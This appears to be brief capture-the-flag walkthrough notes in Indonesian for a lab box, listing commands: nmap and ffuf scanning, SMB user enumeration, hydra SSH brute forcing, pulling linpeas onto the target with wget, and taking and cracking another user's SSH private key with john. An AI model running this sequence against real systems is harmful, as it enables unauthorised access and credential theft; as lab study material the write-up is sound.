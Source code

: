 1. nmap -sV ip -vv --min-rate 1000
2. masuk web -> ffuf -w seclist/web-content/w.txt -fw 18 -> dapet /development/
3. port smb kebuka -> enum4linux -a ip -> dapet user smb nya /jan /kay 
4. bruteforce smb gabisa, lanjut ssh -> hydra -l jan -P rockyou.txt -V -F ip
5. privilege escalation -> nyalain linpeas, wget dari machine sendiri, pastiin di /tmp aja
-> dapet id_rsa dari linpeas -> cat + copy isinya taruh ke machine mu
-> chmod 600 ke id_rsa -> ssh -i userlain@ip -> butuh phrase
-> ssh2john id_rsa nya > output.txt -> john output.txt --wordlist=rockyou -> nemu phrase nya
-> ssh -i lagi -> masukin phrase nya -> cat flag nya
